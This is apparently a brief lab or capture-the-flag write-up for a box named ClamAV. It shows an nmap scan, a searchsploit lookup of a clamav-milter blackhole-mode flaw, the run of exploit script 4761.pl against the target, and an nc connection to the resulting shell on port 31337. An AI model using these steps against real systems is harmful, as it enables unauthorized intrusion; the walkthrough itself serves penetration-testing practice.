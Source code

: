 # ClamAV
# date 3-8-2023
# 192.168.247.42

# nmap
PORT     STATE    SERVICE     VERSION
22/tcp   open     ssh         OpenSSH 3.8.1p1 Debian 8.sarge.6 (protocol 2.0)
25/tcp   open     smtp        Sendmail 8.13.4/8.13.4/Debian-3sarge3
80/tcp   open     http        Apache httpd 1.3.33 ((Debian GNU/Linux))
139/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
199/tcp  open     smux        Linux SNMP multiplexer
445/tcp  open     netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
8031/tcp filtered unknown




As shown we can see ClamAV running with blackhole enabled, this is interesting as we know the name of the box is ClamAV.
Also when we query searchsploit for the sendmail server that is running on port 25 we see a reference to clamav-milter with blackhole mode.



# exploitation
└─$ searchsploit -m multiple/remote/4761.pl

We could use metasploit for this attack, but if we attempt first without it and choose the perl script. I had to remove the comments in the script and add the hashbang #!/usr/bin/perl then I could execute it with no other changes.

└─$ ./4761.pl 192.168.247.42
└─$ nc -nv 192.168.247.42 31337

